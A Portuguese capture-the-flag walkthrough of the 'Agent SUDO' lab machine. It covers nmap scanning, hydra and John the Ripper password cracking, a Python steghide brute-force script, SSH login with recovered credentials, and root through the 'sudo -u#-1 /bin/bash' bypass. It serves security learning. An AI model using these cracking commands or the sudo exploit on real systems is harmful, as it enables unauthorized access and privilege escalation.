 # _**Agent SUDO CTF**_
![](agent_sudo.jpg)

## _**Enumeração**_
Primeiro, um scan com <mark>Nmap</mark> para determinar versões e quais portas estão abertas
> ```bash
> nmap -p 0-20000 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Acessando o endereço da página, temos a seguinte mensagem  

![](agent_access.jpg)

Assumindo que para acessar a verdadeira página, é preciso de uma das letras do alfabeto, buscamos por cada uma através do comando ```cURL``` e uma em específico chama a atenção
> ``` bash
> curl -A “C” -L [ip_address]
> ```
![](curl_return.jpg)

## _**Ganhando acesso**_
O nome identificado é <mark>chris</mark>, e sua senha é fraca  
Vamos realizar um teste de força bruta em _ftp_ e _ssh_ com seu nome. Para isso, utilizamos a ferramenta <mark>hydra</mark>  
> ```bash
> hydra -l chris -P ../wordlists/rockyou.txt -t 4 ftp
> ```  
![](hydra_return.jpg)  

Vamos realizar login via _ftp!_
Listando os arquivos com ```ls```, conseguimos encontrar um arquivo: <mark>To_agentJ.txt</mark>  

![](agent_j.jpg)

Então, extrai-se as imagens encontradas no diretório de chris com ```wget```  
Ao tentar usar <mark>steghide</mark> para acessar a senha contida na imagem extraída (.jpg), é requerido uma senha  
Para isso, vamos utilizar este script em python para tentar realizar um ataque de força bruta contra essa senha  
``` bash
import subprocess

imagem = "imagem.jpg"
wordlist = "rockyou.txt"

with open(wordlist, "r", encoding="latin-1") as f:
	for senha in f:
    	senha = senha.strip()
    	if not senha:
        	continue
    	print(f"[*] Testando senha: {senha}")
    	try:
        	result = subprocess.run(
            	["steghide", "extract", "-sf", imagem, "-p", senha, "-f"],
            	stdout=subprocess.PIPE,
            	stderr=subprocess.PIPE,
            	text=True
        	)
        	# Verifica saída (steghide retorna mensagem no stderr se falhar)
        	if "wrote extracted data" in result.stdout.lower():
            	print(f"\n[V] SENHA ENCONTRADA: {senha}")
            	break
    	except Exception as e:
        	print(f"[!] Erro: {e}")
```

Após nenhum retorno, procuram-se outros meios
Uma ferramenta chamada <mark>binwalk</mark> pode extrair arquivos escondidos de dentro de imagens. Vamos usar o comando abaixo  
> ```bash
> binwalk -e [nome_arquivo]
> ```  
Temos 3 saídas  
* 365  
* 365.zlib  
* 8702.zip   

Primeiro, extraímos o conteúdo _.zip_  
Está bloqueado por senha  
Vamos tentar realizar um brute-force nessa senha com <mark>John the ripper</mark>  

![](zip_extract.jpg)

A senha foi descoberta!  
Agora, extraímos o seu conteúdo  
Temos um arquivo: <mark>To_agentR.txt</mark>  

![](agent_c.jpg)

A imagem que eles querem enviar é para algum lugar
Buscando o que significam essas letras, temos <mark>base64</mark>
> ```bash
> echo ‘QXJlYTUx’ | base64 -d
> ```

<mark>Area51</mark> pode significar muitas coisas  
Estamos procurando por uma senha para extrair o conteúdo de <mark>cute-alien.jpg</mark>  
Vamos tentar  

![](cute_alien.jpg)

O nome do agente J é: <mark>james</mark>  
E sua senha: <mark>hackerrules</mark>  
Vamos tentar realizar login via SSH na conta de james  

![](ssh_login.jpg)

Listando seus arquivos com ```ls```, temos uma imagem _.jpg_ e _userflag.txt_  
O arquivo .txt não está criptografado, garantindo uma flag  
Utilizando o comando ```scp```, extraímos a imagem para nossa máquina local
> ```bash
> scp james@[ip_address]:/home/james/Alien_autospy.jpg
> ```
![](scp_extract.jpg)

A imagem é relacionada ao caso Roswell, mais conhecido como <mark>Roswell Alien Autopsy</mark>  

## _**Escalando privilégios**_
Para conseguirmos escalar privilégios a partir da conta de james, vamos verificar o que ele pode executar como sudo através do comando abaixo
> ```bash
> sudo -l
> ```

Temos o seguinte retorno
_**Matching Defaults entries for james on agent-sudo: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin**_  
_**User james may run the following commands on agent-sudo: (ALL, !root) /bin/bash**_  

Parece que james não tem permissão para executar <mark>/bin/bash</mark> como _root_, pois temos um <mark>!root</mark>  
No entanto, isso parece estranho, pois o primeiro _**all**_ significa que nosso usuário pode executar <mark>/bin/bash</mark> como qualquer usuário  
Vamos pesquisar no google por (ALL, !root) vulnerabilities  
Achamos o seguinte caso  

![](exploit_db.jpg)

Ao utilizar o comando abaixo, o _**sudo**_ não verifica a existência do ID do usuário especificado e executa com um ID de usuário arbitrário com o privilégio _**sudo**_
> ```bash
> sudo -u#-1 /bin/bash
> ```
![](sudo_esc.jpg)

Basta então buscar a flag root!
![](root_flag.jpg)

Para o nome do agente R, basta ver quem é o criador da sala (deskel)

